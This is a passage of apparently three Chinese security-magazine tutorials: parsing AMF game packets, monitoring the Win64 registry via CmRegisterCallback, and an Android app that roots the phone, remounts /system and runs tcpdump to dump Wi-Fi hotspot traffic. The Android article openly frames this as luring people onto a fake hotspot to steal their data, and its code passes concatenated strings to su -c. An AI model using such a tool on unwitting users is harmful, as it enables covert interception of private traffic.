| U290-traits | U29-3 | 第 0 位标志位为 1，第 1 位标志位为 1，第 2 位标志位为 0。第 3 个标志位表示类型是不是动态的。0 表示不是动态的，1 表示是动态的。在封装好成员之后，动态类型可能拥有一组动态成员的“名/值对”。余下的 25 位用来编码封装好的特性成员的数量。 |

如果 U290-traits-ext 为 0，那么 object 类名之后跟着 *(U8) 字节的不可确定的成员。这是表示完全自定义序列化的外部化类型，客户端和服务端使用一个私有协议读取这部分信息。下面以“七雄争霸”网页游戏为例，在 IE 浏览器下利用 HttpWatch 插件截获并保存游戏状态更新数据包后的结果，如图 2 所示。
图 2

- 00 03 表示版本号为 3，这个版本号用处不大，只是提醒你数据流中可能会遇到 AMF3 的数据；
- 00 00 表示头部的个数为 0，一般情况下似乎头部个数都是 0；如果头部个数为 n，那么接下来应该是 n 个头部的数据，这里因为 n=0，所以直接跳过；
- 00 01 表示消息体的个数为 1；
- 正文部分：
  - 00 0C 表示 targetURI 的长度是 0x0C；
  - 2F 32 ...... 74 就是 targetURI 的值："/22/onResult"；
  - 00 00 表示 responseURI 为空字符串；
  - FF FF FF FF 应表示正文长度，但这里无意义；
  - 11 表示数据类型是 AMF3，下面切入 AMF3 的数据流分析；
  - 0A 表示下面是一个 AMF3 的 object 对象；

23 的二进制表示：0010 0011。这个字节对整个 AMF3 的 Object 对象类型进行了关键性定义。先看最右边一位是 1，表示这个 object 是一个真实的 Object，而不是一个 reference（实际上第一次进行存储的 Object 都是一个真实的 Object，只有第 2 次使用的时候才是一个 reference）；最右边第 2 位是 1，表示描述这个 object 的 trait 数据正紧跟其后，如果是 0 则表示该 trait 数据是一个引用，请到引用缓存池里面进行寻找。最右边第 3 位是 0，表示此 object 并不是一个 Externalizable 实例。简单来说，就是这个 object 如果有私有成员，不好意思，这个是不能被序列化到 AMF 数据里面的，除非实现了 IExternalizable 这个接口。

后边第 4 位是 0，表示这个 object 是一个非动态类，左边 0010 表示该 object 中有两个元素。接着往下看，下面紧跟着的是这个 object 的 trait 数据，首先是 ClassName：01，其二进制是 0000 0001。注意 01 并不是说长度为 1。我们先看最右边一位是 1，表示这个 ClassName 不是一个引用，不需要到字符串的缓存池里面去寻找。最左边是 7 位，表示这个 ClassName 的长度正好是 0，就是空串。空串的 ClassName 是指这个 object 的 Class 就是普通的 Object 类。

- 下面就是要读取该 object 成员的变量名称了：
  - 0x11 表示该成员变量字符串长度为 8；
  - 0x63,0x75......65 表示该成员字符串为“currTime”；
  - 0x09 表示该成员变量名称字符串长度为 4；
  - 0x63,0x68,0x61,0x74 表示成员字符串为“chat”；
  - 0x05 表示 currTime 成员是一个 Double 型变量；
  - 0x42,0x73....0xD0 0x00 currTime 值为 1362970107245.00（未转换）；
  - 0x09 表示该成员变量是一个 array；
  - 0x01 表示该 array 只有一个元素；
  - 0x01 表示该 array 的关联部分为空字符串；
- 至此，还原出该数据包内容为：

```text
Object:object
{
    currTime: 1362970107245.00;
    array:[0];
}


```

## 解析程序设计与实现

为了程序的设计清晰，将每个需要解析的 AMF 元素用 amf_object 类来表示。因为 amf_object 涉及大量内存操作，为了使用方便，引入 amf_object_handle 类，这个有点类似 Windows 系统中的 HANDLE（句柄），通过句柄来间接地对系统关键数据进行操作。amf_object 和 amf_object_handle 二者类结构如图 3 所示。
图 3

简单地说，amf_object 通过 Alloc() 静态方法实现 object 实例的内存分配，其 object 实例的类型和值分别保存在 type 和 boolValue 等成员变量中。这里需要特别说明的是，因为 AMF 协议支持成员类型的嵌套，所以当 object 的类型为 Array 或 object 时，使用一个 object 类型的向量列表来保存其各元素的值。解析此类数据时，可使用递归逐一对元素进行解析。amf_object_handle 只有一个成员变量 *pobj，通过重载“=、==、->”等操作符来间接实现对 amf_object 实例的赋值、引用。此外，程序还要设计三个链表用来保存 string、object、object traits 数据的缓冲区。

解析 AMF 协议数据的函数是 read_elem（TAG_context *ctx），其核心代码如下：

```cpp
amf_object_handle read_elem(TAG_context *ctx)
{
    amf_object_handle obj = amf_object::Alloc();
    obj->type = read_type(ctx);
    switch(obj->type)
    {
    case DT_NULL:
        break;
    case DT_FALSE:
        obj->boolValue = false;
        break;
    case DT_STRING:
        read_string(ctx,obj->strValue);
        break;
    ......
    case DT_OBJECT:
        obj = read_obj(ctx);
        break;
    ......
    }
    return obj;
}
```

参数 TAG_context *ctx 是待解析的数据缓存，read_elem 函数首先为 amf_obj 对象分配内存，接着从要解析的数据缓存中读取一个字节判断 AMF 数据类型，根据数据类型利用不同函数进行读取。要注意的是，对 true、false、date、string、int 等没有子成员的数据，会一次性将数据的类型和值读取并通过 amf_handle 赋给 amf_object 变量；对 Array、Object 这类有子成员变量的数据，在代码中要进行递归调用 read_elem 函数进行子成员变量读取，递归至某层的变量为无子成员的数据，最后将包含解析数据的 amf_obj 对象返回。下面以 int 和 object 数据为例，讲述解析过程：

int 型的数据解析比较简单，核心代码如下：

```cpp
unsigned char byte = read_byte(ctx);
int readnum = 0;
int value = 0;
```

```c
while(((byte & 0x80)!=0) && (readnum<3)) // 首字节为1表示后面字节有效，循环读取
{
    value = (value<<7) | (byte & 0x7F);
    ++readnum;
    byte = read_byte(ctx);
}


```

代码很简单，read_byte 读取数据类型，接着逐字节读取数据。如果字节高位为 1，表示其后还有数据，将读出的 byte 与已读出的 value 进行“|”运算得到 int 值。

Object 类型数据解析起来比较复杂，这里不贴代码，只列出代码的核心框架。大家如果有兴趣，可以结合框架对源码进行解读。其解析函数 read_obj 的基本流程如图 4 所示。
图 4

解析的过程，上面的流程图已经很详细了，这里就不具体说明了。需要注意一点的是，解析 object 数据时，需要设置两个缓存池，分别是 object 实例缓存池和特性数据缓存池。解析代码中使用链表来实现缓存池，当传递数据是 object 引用或特性数据引用时，程序会根据索引值到缓存池（链表）查找对应数据进行读取、还原。除了解析 object 数据需要建立缓存池外，AMF 协议中对 string、array 等数据的解析也引入了缓存池，大家可以看源码配合 AMF3 协议进行解读。

## 代码测试

写好解析程序，需要测试下程序的效果如何。这里利用 IE + HttpWatch 截取一段“七雄争霸”中的“userAct.getUserProperty”（用于获取城主的各项数据）请求指令的返回数据进行解析，并与 Amf Explorer 的解析结果进行比较，如图 5 所示。
图 5

“userAct.getUserProperty” 指令返回数据是一个匿名的 object 对象，其中有几十个成员，如注册用户的名称 username、荣誉值 honor 等。其中 userAchieve 这个成员比较特殊，类型是 Array，属于拥有子成员的数据。仔细看数组中，每一个成员又是 object 类型，如数组第一个 object 成员的数据是 {YELLOWVIP:1, QQVIP:1, BLUEVIP:1}。经过对比，发现我们的解析程序的结果和 FireBug 的 AMF Explorer 数据包解析的结果基本一致。

## 关于代码

- 1）要查看“七雄争霸”或其它基于 AMF 协议编写的网页游戏数据，使用 FireFox 浏览器 + FireBug + AMF Explorer 插件。注意，因为 FireBug 和 AMF Explorer 更新不及时，不能与新版本的 Firefox 浏览器兼容，最好使用版本较低的 Firefox 测试，如 5.0 以下版本。
- 2）FireBug 不支持数据包导出功能，想要导出 AMF 数据包只能使用 IE + HttpWatch。
- 3）导出数据包后，用 UltraEdit 将 Http 的包头部分删除，只保留从“0x03”协议头开始到数据包末尾的数据，将数据另存为后，直接可用我们编写的程序进行解码。
- 4）源码可用 VC6.0 + Platform SDK SP2 编译通过。
- 5）虽然程序能解析大部分游戏数据，但限于时间紧迫，程序定有很多不完善的地方，欢迎读者批评指正。

本文旨在向读者展示 AMF 协议内容和 AMF 消息的消息格式。通过阅读本文理解 AMF 精髓，希望读者不要利用本文的思路和源码进行违法、违规行为，作者和杂志概不负责。

### Win64 无 Hook 实现监控注册表

文/图 胡文亮

在 Win32 平台上，监控注册表的手段通常是 SSDT Hook。记得我看黑防的第一篇文章，就是关于如何用 SSDT Hook 防止修改 IE 主页的。不过现在来看，用 SSDT Hook 的方式监控注册表实在是太麻烦了，而且在 Win64 下还不能合法使用 SSDT Hook。本文将介绍一种完胜 SSDT Hook 监控注册表的方法，效果与 SSDT Hook 一样好。

这个方法就是使用微软推荐的注册表监控函数 CmRegisterCallback。此函数其实在 Windows XP 系统上就有了，不过那时功能不完善，只能简单地禁止或允许，无法获得完整的注册表修改信息（即做不到“监控”）。到了 Vista 系统以后，微软对此函数做了相当大的改进，可以实现“监控”的目的了。本文最后要实现的效果是把注册表编辑器（regedit.exe）所有对注册表添加、删除、重命名的操作都通过 DbgView 打印出来，并拒绝访问（只针对 regedit.exe，是因为系统对注册表的操作太频繁了，这么做是为了方便大家实验）。

首先看一下这个函数的原型：

```c
NTSTATUS CmRegisterCallback
(
    _In_      PEX_CALLBACK_FUNCTION Function,
    _In_opt_  PVOID Context,
    _Out_     PLARGE_INTEGER Cookie
);
```

MSDN 上的解释很书面化，用大白话来说，这三个参数分别为回调函数的地址、随便设置的值（直接传入 NULL 即可）、回调的句柄。同样，也有个函数用于销毁回调，它是 CmUnRegisterCallback，原型如下：

```c
NTSTATUS CmUnRegisterCallback(_In_ LARGE_INTEGER Cookie);
```

CmUnRegisterCallback 函数唯一的参数就是 cookie，也就是“回调的句柄”。创建和销毁回调的代码如下：

```c
LARGE_INTEGER CmHandle;
NTSTATUS CmSt;
CmSt = CmRegisterCallback(RegistryCallback, NULL, &CmHandle);
if (NT_SUCCESS(CmSt))
    DbgPrint("CmRegisterCallback SUCCESS!");
else
    DbgPrint("CmRegisterCallback Failed!");
CmUnRegisterCallback(CmHandle);
```

接下来看回调函数的原型：

```c
NTSTATUS RegistryCallback
(
    _In_     PVOID CallbackContext,
    _In_opt_ PVOID Argument1, // 操作类型（只是操作编号，不是指针）
    _In_opt_ PVOID Argument2  // 操作详细信息的结构体指针
)
```

CallbackContext 基本可以忽略，重要的就是下面的两个参数 Argument1 和 Argument2。Argument1 记录的是操作类型（这个参数不是指针，只是操作类型的编号），Argument2 记录的是有关操作信息的结构体指针。接下来举个例子，比如我们已经注册了一个注册表回调，当有删除注册表项的操作发生时，我们注册的回调就会被调用，Argument1 的信息是 RegNtPreDeleteKey（pre 是“操作前”的意思），Argument2 的信息是一个指向 REG_DELETE_KEY_INFORMATION 结构体的指针。操作完成后，我们的注册表回调又会被调用一次，此时 Argument1 的信息是 RegNtPostDeleteKey（post 是“操作后”的意思），Argument2 的信息是一个指向 REG_POST_OPERATION_INFORMATION 结构体的指针。在所有的结构体里，有一项是肯定有的，就是 Object，它是你操作了那个项或者根项的对象指针（相对于新建项而言，就是根项的对象指针；相对于新建/设置/删除/重命名键值和删除项而言，就是项的对象指针）。通过这个 Object 获得项名称的代码如下：

```c
BOOLEAN GetRegistryObjectCompleteName(PUNICODE_STRING pRegistryPath,
                                      PUNICODE_STRING pPartialRegistryPath,
                                      PVOID pRegistryObject)
{
    BOOLEAN foundCompleteName = FALSE;
    BOOLEAN partial = FALSE;
    if ((!MmIsAddressValid(pRegistryObject)) || (pRegistryObject == NULL))
        return FALSE;

    /* Check to see if the partial name is really the complete name */
    if (pPartialRegistryPath != NULL)
    {
        if ((((pPartialRegistryPath->Buffer[0] == '\\') ||
              (pPartialRegistryPath->Buffer[0] == '%')) ||
             ((pPartialRegistryPath->Buffer[0] == 'T') &&
              (pPartialRegistryPath->Buffer[1] == 'R') &&
              (pPartialRegistryPath->Buffer[2] == 'Y') &&
              (pPartialRegistryPath->Buffer[3] == '\\'))))
        {
            RtlCopyUnicodeString(pRegistryPath, pPartialRegistryPath);
        }
    }
}
```

```c
partial = TRUE;
foundCompleteName = TRUE;
}
}
if (!foundCompleteName)
{
    /* Query the object manager in the kernel for the complete name */
    NTSTATUS status;
    ULONG returnedLength;
    PUNICODE_STRING pObjectName = NULL;
    status = ObQueryNameString(pRegistryObject,
        (POBJECT_NAME_INFORMATION)pObjectName, 0, &returnedLength);
    if (status == STATUS_INFO_LENGTH_MISMATCH)
    {
        pObjectName = ExAllocatePoolWithTag(NonPagedPool, returnedLength,
            REGISTRY_POOL_TAG);
        status = ObQueryNameString(pRegistryObject,
            (POBJECT_NAME_INFORMATION)pObjectName, returnedLength, &returnedLength);
        if (NT_SUCCESS(status))
        {
            RtlCopyUnicodeString(pRegistryPath, pObjectName);
            foundCompleteName = TRUE;
        }
        ExFreePoolWithTag(pObjectName, REGISTRY_POOL_TAG);
    }
}
return foundCompleteName;
}
```

一般来说，第二个参数可以忽略，只要第一个和第三个参数就可以了。第一个参数是一个已经分配好了缓冲区的 UNICODE_STRING 结构体指针，第三个参数是注册表项的对象指针。除了获得项或根项的路径麻烦一点，其它的信息都放在结构体里了，直接就是 UNICODE_STRING，获取非常方便。以设置键值为例，REG_SET_VALUE_INFORMATION 结构体的定义如下：

```c
typedef struct _REG_SET_VALUE_KEY_INFORMATION
{
    PVOID           Object;
    PUNICODE_STRING ValueName;
    ULONG           TitleIndex;
    ULONG           Type;
    PVOID           Data;
    ULONG           DataSize;
    PVOID           CallContext;
    PVOID           ObjectContext;
    PVOID           Reserved;
} REG_SET_VALUE_KEY_INFORMATION, *PREG_SET_VALUE_KEY_INFORMATION;
```

一般来说，我们只关注此结构体的第 1、2、4、5、6 个成员，1 是这个键所属的项，2 是这个键的名称，4 是这个键的类型，5 是这个键的值，6 是这个键的数据长度。其它结构体里，具体每个成员的意义和用途，直接查阅 MSDN 即可。

回调函数的源码如下（看完上面的解释，看下面的代码应该就没难度了）：

```c
NTSTATUS RegistryCallback
(
    IN PVOID CallbackContext,
    IN PVOID Argument1,
    IN PVOID Argument2
)
{
    long type;
    NTSTATUS CallbackStatus = STATUS_SUCCESS;
    UNICODE_STRING registryPath;
    registryPath.Length = 0;
    registryPath.MaximumLength = 2048 * sizeof(WCHAR);
    registryPath.Buffer = ExAllocatePoolWithTag(NonPagedPool,
        registryPath.MaximumLength, REGISTRY_POOL_TAG);
    if (registryPath.Buffer == NULL)
        return STATUS_SUCCESS;
    type = (REG_NOTIFY_CLASS)Argument1;
    switch (type)
    {
        case RegNtPreCreateKeyEx:
            // 出现两次是因为一次是 OpenKey，一次是 CreateKey
            {
                if (IsProcessName("regedit.exe", PsGetCurrentProcess()))
                {
                    GetRegistryObjectCompleteName(&registryPath, NULL, ((PREG_CREATE_KEY_INFORMATION)Argument2)->RootObject);
                    DbgPrint("[RegNtPreCreateKeyEx]KeyPath: %wZ", &registryPath);

                    // 新键的路径
                    DbgPrint("[RegNtPreCreateKeyEx]KeyName: %wZ",
                        ((PREG_CREATE_KEY_INFORMATION)Argument2)->CompleteName); // 新键的名称
                    CallbackStatus = STATUS_ACCESS_DENIED;
                }
                break;
            }

        case RegNtPreDeleteKey:
        {
            if (IsProcessName("regedit.exe", PsGetCurrentProcess()))
            {
                GetRegistryObjectCompleteName(&registryPath, NULL, ((PREG_DELETE_KEY_INFORMATION)Argument2)->Object);
                DbgPrint("[RegNtPreDeleteKey]%wZ", &registryPath);  // 新键的路径
                CallbackStatus = STATUS_ACCESS_DENIED;
            }
            break;
        }

        case RegNtPreSetValueKey:
        {
            if (IsProcessName("regedit.exe", PsGetCurrentProcess()))
            {
                GetRegistryObjectCompleteName(&registryPath, NULL, ((PREG_SET_VALUE_KEY_INFORMATION)Argument2)->Object);
                DbgPrint("[RegNtPreSetValueKey]KeyPath: %wZ", &registryPath);
                DbgPrint("[RegNtPreSetValueKey]ValName: %wZ", ((PREG_SET_VALUE_KEY_INFORMATION)Argument2)->ValueName);
                CallbackStatus = STATUS_ACCESS_DENIED;
            }
            break;
        }

        case RegNtPreDeleteValueKey:
        {
            if (IsProcessName("regedit.exe", PsGetCurrentProcess()))
            {
                GetRegistryObjectCompleteName(&registryPath, NULL, ((PREG_DELETE_VALUE_KEY_INFORMATION)Argument2)->Object);
                DbgPrint("[RegNtPreDeleteValueKey]KeyPath: %wZ", &registryPath);
                DbgPrint("[RegNtPreDeleteValueKey]ValName: %wZ", ((PREG_DELETE_VALUE_KEY_INFORMATION)Argument2)->ValueName);
                CallbackStatus = STATUS_ACCESS_DENIED;
            }
            break;
        }

        case RegNtPreRenameKey:
        {
            if (IsProcessName("regedit.exe", PsGetCurrentProcess()))
            {
                GetRegistryObjectCompleteName(&registryPath, NULL, ((PREG_RENAME_KEY_INFORMATION)Argument2)->Object);
                DbgPrint("[RegNtPreRenameKey]KeyPath: %wZ", &registryPath);
                DbgPrint("[RegNtPreRenameKey]NewName: %wZ", ((PREG_RENAME_KEY_INFORMATION)Argument2)->NewName);
                CallbackStatus = STATUS_ACCESS_DENIED;
            }
            break;
        }

        // 注册表编辑器里的“重命名键值”是没有直接函数的，是先 SetValueKey 再 DeleteValueKey
        default:
            break;
    }
    if (registryPath.Buffer != NULL)
        ExFreePoolWithTag(registryPath.Buffer, REGISTRY_POOL_TAG);
    return CallbackStatus;
}


```

需要注意的是，此函数如果返回 STATUS_SUCCESS，注册表操作就会继续执行；如果返回 STATUS_ACCESS_DENIED，注册表操作就不会执行了，这样就达到了“监控”的效果，最终效果如图 1 所示。
图 1

本文到此结束，此代码在 Win7 X64 和 Win8 X64 上测试通过。特别提醒，Win8 对权限的管理非常严格，即使已经是 Administrator 用户，运行的程序都是以普通用户的权限运行的，所以在运行任何程序时，都务必对程序按右键，选择“以管理员权限运行”。

（完）

## Android 平台下的 WIFI 流量转储

文/图 顽石

随着手机、平板等智能移动终端的普及，面对昂贵的 3G 网络资费，人们对无处不在的 Wifi 网络的需求已十分突出。为了方便用户进行网络共享，Android 2.3.X 之后版本的系统都默认提供了 Wifi 共享功能，即可以把原本的 3G 或 2G 的网络流量通过建立 Wifi 热点的方式共享给周围的用户；此外，不少软件也提供了类似的 Wifi 热点共享功能，如开源软件 WifiTether 等。

Wifi 共享功能在方便用户的同时，也存在利用虚假热点、钓鱼 Wifi 对用户网络数据进行侦听的隐患。例如我们在餐馆吃饭时，可以很方便地用手机搭建一个和餐馆同名的 Wifi 热点，以诱使他人接入，从而窃取其数据。而本文则恰好介绍了如何快速开发一个可以实现对 Android 手机的 Wifi 共享网络流量进行截获、转储的小工具。

## 原理与基础

### 1. Wifi 共享网络流量的转储原理

我们知道，在电脑上可以将一个网络设备 A 上的网络连接共享给另一个网络设备 B，实现该功能的最简单方法就是将两个网络设备 A、B 桥接，从而使得设备 B 能够经由 A 接入网络连接。而手机上的 Wifi 热点共享与此相似，即将 Wifi 热点所使用的网卡经由手机的 GPRS/3G 模块接入互联网，而无线网卡本身则作为热点，供其他设备连接，从而形成了如图 1 所示的网络。因此，作为共享者想要劫持或转储来自用户的流量数据，只需获取流经 Wifi 热点所用的网卡上的数据即可。
图 1

而在 PC 平台下，获取网卡上数据的工具很多，其中功能强大且易于移植到 Android 平台上的有开源工具 TCPDUMP。TCPDUMP 允许设置各种过滤条件来捕获数据，如端口过滤、IP 过滤、特定协议过滤或内容过滤；同时，TCPDUMP 捕获的数据包以 pcap 格式存储，可通过强大的协议分析工具 Wireshark 进行分析。因此，我们需要做的就是将 TCPDUMP 工具移植到 Android 平台，使其可以正常工作。

### Android 远程监控技术

### 2. Android 应用开发中 NDK 的 JNI 技术

我们知道，Android 系统上的应用程序以 APP 形式提供，主要用 Java 语言开发，那么想给交叉编译好的 TCPDUMP 程序传递参数并使其以较好的方式运行并非易事，这其中需要用到 JNI 技术，即 Java 本地调用——通过 Java 开发的 Android APP 程序来调用、执行本地程序 TCPDUMP，从而实现 Wifi 热点数据的转储。

NDK 全称 Native Development Kit，其目的是允许用户使用类似 C/C++ 之类的原生代码语言执行部分程序。我们可以用 NDK 开发一个动态链接库 NativeTask.so，让其执行一些系统命令。

## 编程实现

编程实现的流程如图 2 所示，下面会进行分步讲解。
图 2

### 1. NativeTask.so 的开发

#### 1) NativeTask 类

在开始开发之前，我们先建立一个 Android 应用开发的基本工程——Helloworld。在工程中添加类 NativeTask，该类中主要定义了 NativeTask.so 动态链接库要导出的函数和变量，此外还包含对动态链接库的加载，实现代码如下。

```java
package com.example.helloworld;
import android.util.Log;
public class NativeTask {
    public static final String MSG_TAG = "NativeTask";
    static {
        try {
            Log.i(MSG_TAG, "Trying to load libwtnativetask.so");
            // 加载动态链接库 NativeTask.so
            System.loadLibrary("nativetask");
        }
        catch (UnsatisfiedLinkError ule) {
            Log.e(MSG_TAG, "Could not load libwtnativetask.so");
        }
    }

    // 声明需要从 NativeTask.so 中调用的函数
    // 执行系统命令
    public static native int runCommand(String command);
    // 调用测试
    public static native String stringFromJni();
}
```

### Android 远程监控技术

### 2) 动态链接库 NativeTask.so

为了让 NativeTask 类可以加载 NativeTask.so，我们需要根据 JNI 生成与 NativeTask 类相匹配的动态链接库的头文件，具体可以如下完成。

```bash
~$ cd workspace/helloworld/
~$ mkdir jni
helloworld$ javah -classpath bin -d jni com.example.helloworld.NativeTask
```

通过上述步骤，即可在 JNI 目录下生成头文件 com_example_helloworld_NativeTask.h，其内容无需修改。我们只需根据头文件的定义，在源码文件 com_example_helloworld_NativeTask.c 中实现相应的函数即可。

```c
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/system_properties.h>
#include "com_example_helloworld_NativeTask.h"

JNIEXPORT jstring JNICALL Java_com_example_helloworld_NativeTask_stringFromJni
(JNIEnv *env, jclass class)
{
    return (*env)->NewStringUTF(env, "Hello, this is from jni!");
}

// 执行传递进来的命令
JNIEXPORT jint JNICALL Java_com_example_helloworld_NativeTask_runCommand
(JNIEnv *env, jclass class, jstring command)
{
    const char *commandString;
    commandString = (*env)->GetStringUTFChars(env, command, 0);
    // 执行命令
    int exitcode = system(commandString);
    (*env)->ReleaseStringUTFChars(env, command, commandString);
    return (jint)exitcode;
}
```

### Android 远程监控技术

在完成 NativeTask.so 的功能代码之后，接下来完成 Makefile 文件——Android.mk。

```makefile
LOCAL_PATH := $(call my-dir)
include $(CLEAR_VARS)
LOCAL_MODULE := libnativetask
LOCAL_SRC_FILES := com_example_HelloWorld_NativeTask.c
#LOCAL_SHARED_LIBRARIES := libcutils
include $(BUILD_SHARED_LIBRARY)
```

此时，所有工作已完成，在 Helloworld 目录中执行 ndk-build 命令，即可生成相应的 libnativetask.so 文件到“libs/armeabi/libnativetask.so”。

## 2. Android 应用：WifiDump 主体框架的实现

WifiDump 的主体 APP 程序由两部分组成：用于显示主体界面的、继承于 Activity 的 helloworld 类；用于实现所有 WifiDump 功能和配置操作的 PacketDump 类。下面分别说明。

### 1）实现转储操作的 PacketDump 类

下面对 PacketDump 中的相关函数进行介绍。先对基础函数进行说明，最后再对关键函数“beginDump”和“stop”进行说明。

- ① 检测是否已经 root 的方法 hasRootPermission。

```java
private boolean hasRootPermission() {
    boolean rooted = true;
    if(!isFileExist("/system/bin/su"))
        if(!isFileExist("/system/xbin/su")) rooted = false;
    return rooted;
}
```

- ② 运行基本系统命令 runCommand。其中内部调用的 NativeTask.runCommand 由 NativeTask.so 实现，前面已经作介绍。

```java
// 以 root 权限运行命令
private void runCommand(String command){
    NativeTask.runCommand("su -c \"" + command + "\"");
}
```

- ③ 用来修改文件权限的方法 chmod。

```java
// 修改指定文件的权限
private void chmod(String filePath, String permissionMode) {
    runCommand("chmod " + permissionMode + " " + filePath);
}
```

- ④ 判断 SD 卡是否准备就绪的方法 hasSdCard。注意，因为在测试 Demo 中，捕获到的数据是要存储到 SD 卡中 pcap/ 目录下，故需要判断 SD 卡是否就绪，且需要给 APP 添加权限“android.permission.WRITE_EXTERNAL_STORAGE”。

```java
// 判断是否有 sd 卡
public static boolean hasSdcard() {
    String status = Environment.getExternalStorageState();
    if (status.equals(Environment.MEDIA_MOUNTED)) {
        return true;
    } else {
        return false;
    }
}
```

- ⑤ 将资源中已编译好的 TCPDUMP 释放出来的方法 dropFile。  
在程序框架中，为了能够将所需的 TCPDUMP 打包到 APP 中，我们需要将其放到 helloworld 工程下的 assets 目录中，程序安装后调用 dropFile 可将其释放到指定目录。

```java
// 将文件从资源中释放
private void dropFile(String dstFilePath, String resFilename){
    InputStream inputFS;
    try { // 打开资源文件
        inputFS = mainAct.getResources().getAssets().open(resFilename);
    } catch (IOException e1) {
        e1.printStackTrace();
        return;
    }
    // 输出文件
    File outFile = new File(dstFilePath);
    byte buf[] = new byte[1024];
    int len;
    try {
        OutputStream outputFS = new FileOutputStream(outFile);
        while((len = inputFS.read(buf)) > 0) {
            outputFS.write(buf, 0, len);
        }
        outputFS.close();
        inputFS.close();
        chmod(dstFilePath, "0755");
    } catch (IOException e) {
        return; // "Couldn't install file - "+filename+"!";
    }
    return;
}
```

- ⑥ 将 TCPDUMP 安装到系统目录 installFile。  
这里需要注意的有两点：一是即使有了 root 权限，但也不一定直接有对 system 目录的修改权限，即需要通过重新挂载 system 目录，以赋予读写权限：mount -o remount -o rw /system；二是释放的文件不一定有可执行权限，故需要通过 chmod 赋予其 755 的权限。具体实现如下。

```java
// 释放和安装 tcpdump 文件
public String installFiles() {
    String tmpDir = mainAct.getApplicationContext().getFilesDir() + "/";
    String tmpPath = tmpDir + tcpdump;
    String dstDir, dstPath;
    // 检测是否已经 Root
    if(!hasRootPermission())
        return "Permission denied!";
    // 将 tcpdump 放置到临时目录
    dropFile(tmpPath, tcpdump);
    /** 将 tcpdump 移植到 /system/bin 目录下 **/
    // change the permission of "/system" directory
    if(isFileExist("/system/bin/mount") || isFileExist("/system/xbin/mount")){
        // 以可写权限重新挂载 System 目录
        runCommand("mount -o remount -o rw /system");
        dstDir = "/system/bin/";
    } else
        // /system/bin 不行，则将 tcpdump 放到 /data 下
        dstDir = "/data/";
    dstPath = dstDir + tcpdump;
    // 删除已存在的文件
    if(isFileExist(dstPath))
        runCommand("rm " + dstPath);
    // 移动文件到目标目录
    runCommand("mv " + tmpPath + " " + dstPath);
    // 赋予权限
    chmod(dstPath, "0755");
    tcpdumpPath = dstPath;
    return "tcpdump 已安装到" + tcpdumpPath;
}
```

- ⑦ 生成数据文件存储路径 prepareDataPath。  
本文中捕获的数据包都存储在 SD 卡 pcap 目录下，文件以“年-月-日_时-分-秒.pcap”的方式命名。

```java
// 准备数据文件路径
public String prepareDataPath(){
    String path = null;
    String tmpDataPath;
    if(hasSdcard() == false)
        tmpDataPath = Environment.getDataDirectory().getPath();
    else
        tmpDataPath = Environment.getExternalStorageDirectory().getPath();
    if(tmpDataPath == null)
        return "未能找到合适的数据存储路径！";

    File filePath = new File(tmpDataPath + "/pcap/");
    if(filePath.mkdirs() || filePath.isDirectory()){
        path = tmpDataPath + "/pcap/" + getCurrentTime() + ".pcap";
    }
    dataPath = path;
    return "数据将存储为:" + dataPath;
}
```

- ⑧ 最重要的方法 beginDump。  
beginDump 是提供给 helloworld 类调用的方法，其参数为数据捕获的过滤器字符串。该方法在内部实现时创建了一个线程，专门进行数据捕获。线程 myThread 和 beginDump 的具体实现如下。

```java
// 进行数据捕获的线程
class myThread implements Runnable {
    public void run() {
        runCommand(tcpdumpPath + " -w " + dataPath + " " + ProtocolFilter);
    }
}

public int beginDump(String strFilter){
    int retCode;
    if(tcpdumpPath == null)
        retCode = 1; // 未能成功安装 tcpdump
    else if(dataPath == null)
        retCode = 2; // 未能找到合适数据存储路径，请确保有可用的外部存储
    else{
        ProtocolFilter = strFilter;
        new Thread(new myThread()).start();
        retCode = 0; // 开始运行
    }
    return retCode;
}
```

- ⑨ 停止捕获的方法 stop。  
停止捕获的思路是使用 kill 命令关闭由 myThread 运行起来的 tcpdump 进程。具体先使用“ps | grep tcpdump”找出所有 tcpdump 进程信息，再用 split 函数获得 pid，再“kill pid”关闭 tcpdump。

```java
// 停止
public String stop(){
    // 获取进程号
    String tmpDir = mainAct.getApplicationContext().getFilesDir() + "/";
    String pidFilePath = tmpDir + "pspid";
    runCommand("ps | grep tcpdump > " + pidFilePath);

    if(false == isFileExist(pidFilePath)){
        return null;
    }
    File pidFile = new File(pidFilePath);
    String tmpstr = "";
    String strArry[];
    try{
        InputStream pidIS = new FileInputStream(pidFile);
        BufferedReader bf = new BufferedReader(new InputStreamReader(pidIS));
        while((tmpstr = bf.readLine()) != null){
            strArry = tmpstr.split("\\s+");
            runCommand("kill " + strArry[1]);
        }
    } catch (Exception e){
        return null;
    }
    return "数据已存储到" + dataPath;
}
```

### 3. 用于简单交互的 helloworld 类

helloworld 类作为 MainActivity，继承于 Activity，用来显示并提供基础的交互。本 Demo 程序仅包含“开始”“停止”按钮，其中用到显示提示信息的 Toast 类，下面详细介绍。

### 1）Activity 的初始化函数 onCreate

在 onCreate 函数中主要进行的操作有安装 tcpdump 文件、初始化 Button 等。

```java
// 安装 tcpdump 文件
PcapDump = new PacketDump(this);
msg = PcapDump.installFiles();
showToastMsg(msg);

// 初始化 button 等
startCap = (Button)findViewById(R.id.buttonStart);
stopCap = (Button)findViewById(R.id.buttonStop);

// 设置 ClickListener
startCap.setOnClickListener(new OnClickListener(){…});
stopCap.setOnClickListener(new OnClickListener(){…});
```

### 2）对“开始”和“停止”按钮的事件响应

StartCap 按钮的 OnClickListener 代码如下：

```java
new OnClickListener(){
    @Override
    public void onClick(View v) {
        int errCode;
        String errMsg;
        if (!bRunning){
            errMsg = PcapDump.prepareDataPath();
            showToastMsg(errMsg);
            // 开始抓包
            errCode = PcapDump.beginDump(HttpFilter);
            // 显示提示信息
            switch (errCode) {
                case 0:
                    errMsg = "成功运行!";
                    bRunning = true;
                    break;
                case 1:
                    errMsg = "未能成功安装 tcpdump!";
                    break;
                case 2:
                    errMsg = "未能找到合适数据存储路径，请确保有可用的外部存储!";
                    break;
                default:
                    errMsg = "未知的错误!";
            }
        } else {
            errMsg = "已经在运行啦~~";
        }
        showToastMsg(errMsg);
        // 修改按钮状态
        if (bRunning){
            startCap.setEnabled(false);
            stopCap.setEnabled(true);
        }
    }
}
```

Stop 按钮的 OnClickListener 代码如下：

```java
new OnClickListener(){
    @Override
    public void onClick(View v) {
        String errMsg;
        if(bRunning){ // stop the thread
            errMsg = PcapDump.stop();
            if(null == errMsg){
                showToastMsg("停止失败！");
            } else {
                bRunning = false;
